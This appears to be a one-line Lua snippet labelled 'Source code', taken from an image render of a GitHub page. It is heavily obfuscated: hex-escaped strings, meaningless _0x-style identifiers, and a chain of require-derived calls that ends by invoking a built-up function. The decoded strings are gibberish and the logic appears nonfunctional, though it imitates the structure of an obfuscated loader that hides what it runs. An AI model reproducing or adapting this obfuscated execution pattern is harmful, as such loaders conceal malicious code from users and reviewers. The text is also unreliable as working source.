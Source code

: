 local _0x0=require;local _0x1={};_0x1[_0x0("\x75\x5a\x63\x70\x43\x6e")]=_0x0("\x46\x45");_0x1[_0x0("\x73\x59\x6e\x70\x57\x30")]=_0x0("\x3f\x54\x75\x42\x44\x38\x3d\x3d\x7d\x3e\x42\x4c");local _0x2={_0x0("\x3f\x54\x75\x42\x44\x38\x3d\x3d\x7d\x3e\x42\x4c"),_0x0("\x33\x44\x62\x37\x4f\x6c\x3d\x3d\x73\x4a\x3e\x40")};local _0x3=_0x1[_0x0("\x73\x59\x6e\x70\x57\x30")];local _0x4=_0x3("\x57\x38\x5a\x59\x38\x62\x3c\x6e\x3c\x3e\x6e\x59\x4e");local _0x5=_0x3(_0x0("\x33\x44\x62\x37\x4f\x6c\x3d\x3d\x73\x4a\x3e\x40"));local _0x6=_0x5("\x76\x51\x40\x54\x4e\x3a\x56\x57\x50\x40\x41\x54\x76\x51\x40\x54\x4e\x3a\x56\x57\x50\x40\x41");local _0x7=_0x6("\x76\x57\x40\x3c\x54\x4e\x3a\x56\x57\x50\x40\x41");local _0x8=_0x4("\x76\x57\x50\x40\x4d\x57\x4d\x41\x4d\x57\x4f\x42\x4e\x3a\x56\x57\x50\x40\x41");local _0x9=_0x5(_0x0("\x33\x44\x62\x37\x4f\x6c\x3d\x3d\x73\x4a\x3e\x40"));local _0xa=_0x6("\x76\x57\x50\x40\x45\x57\x41\x4d\x41\x51\x4d\x41\x52\x4d\x51\x40\x4e\x3a\x56\x57\x50\x40\x41");local _0xb=_0x7(_0x9(_0x0("\x3f\x54\x75\x42\x44\x38\x3d\x3d\x7d\x3e\x42\x4c")));local _0xc=_0x4(_0x5("\x3f\x54\x75\x42\x44\x38\x3d\x3d\x7d\x3e\x42\x4c"));local _0xd=_0xa(_0x7(_0xb(_0xc)));local _0xe=_0xd;local _0xf=_0xd;_0xf(_0x0("\x33\x44\x62\x37\x4f\x6c\x3d\x3d\x73\x4a\x3e\x40"))();
